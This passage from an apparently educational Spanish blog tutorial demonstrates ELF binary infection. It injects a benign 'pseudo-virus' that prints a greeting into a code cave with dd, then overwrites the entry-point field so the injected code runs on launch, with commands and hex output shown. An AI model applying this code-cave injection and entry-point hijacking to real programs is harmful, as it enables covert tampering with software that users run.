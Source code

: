 Bingo. Ahora solo tenemos que inyectar este código en la cueva que habíamos encontrado anteriormente, la cual, si recordáis se encontraba en el ofset `0x70c` de nuestro programa víctima. Nuestra cueva nos permitía acomodar unos 1700 bytes, así que no tendremos problemas para inyectar esto `0x43` bytes. Esto lo podemos hacer con un comando como este:

```bash
$ dd if=virus1.o bs=1 skip=$((0x180)) count=$((0x42)) of=victim seek=$((0x70c)) conv=notrunc
```

_Nota:Los más curiosos podéis comprobar la página del manual de dd en caso de que tengáis curiosidad por lo que significa cada uno de los parámetros del comando anterior._

Si ahora comprobamos el contenido de la cueva de código del programa víctima, ya no encontraremos solo ceros!.

```
$  dd if=victima bs=1 count=1796 skip=$((0x70c)) | xxd
00000000: b801 0000 00bf 0100 0000 488d 3513 0000  ..........H.5...
00000010: 00ba 1e00 0000 0f05 b83c 0000 00bf 0000  .........<......
00000020: 0000 0f05 5175 6520 7061 7361 206c 6563  ....Que pasa lec
00000030: 746f 7265 7320 6465 204f 6363 616d 7321  tores de Occams!
00000040: 210a 0000 0000 0000 0000 0000 0000 0000  !...............
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................

```

Podéis comprobar la salida de `objdump` más arriba para verificar que lo que hemos copiado es realmente el código de nuestro pequeño pseudo-virus :). Sí, tenéis que comprobar los números hexadecimales si no me creéis.

## Haciendo que se ejecute el código
Bien, hemos completado la primera parte del proceso de infección de cualquier virus; inyectar el código del virus en un programa huésped. Ahora tenemos que modificar ese programa para que, cada vez que el programa se lance, se ejecute el código de nuestro virus en lugar de el código original.

Este es un buen momento para volver sobre nuestros pasos y repasar la sección en la que hablamos sobre la cabecera ELF. Qué campo creéis que deberíamos modificar para conseguir nuestro propósito?. Bien dicho, `Entry Point` eso es.

Este campo, todavía apunta al código original (el cual no hemos modificado) (`0x400430`). Lo que queremos es que apunte al código que acabamos de inyectar. Para ello debemos calcular la posición de memoria en la que nuestro código será cargado. Esto es más sencillo de lo que parece. Nuestro código lo hemos insertado en el offset `0x70c` del fichero. Puesto que el segmento de código empieza en el offset `0`, y que se va a cargar en memoria a partir de la posición `0x400000` (según lo que nos ha contado `readelf` un poco más arriba), pues nuestro virus se encontrará en la posición de memoria `0x40070c`. Que no?.... vamos a probarlo:

```bash
$  readelf -h victima
ELF Header:
  (...)
  Entry point address:               0x400430
  Start of program headers:          64 (bytes into file)
  (...)
$ ./victima
Hola Mundo
$ echo -ne "\x0c\x07" | dd of=victima seek=$((0x18)) bs=1 count=2 conv=notrunc
(...)
$ readelf -h victima
ELF Header:
  (...)
  Entry point address:               0x40070c
  Start of program headers:          64 (bytes into file)
  (...)
$ ./victima
Que pasa lectores de Occams!!
```
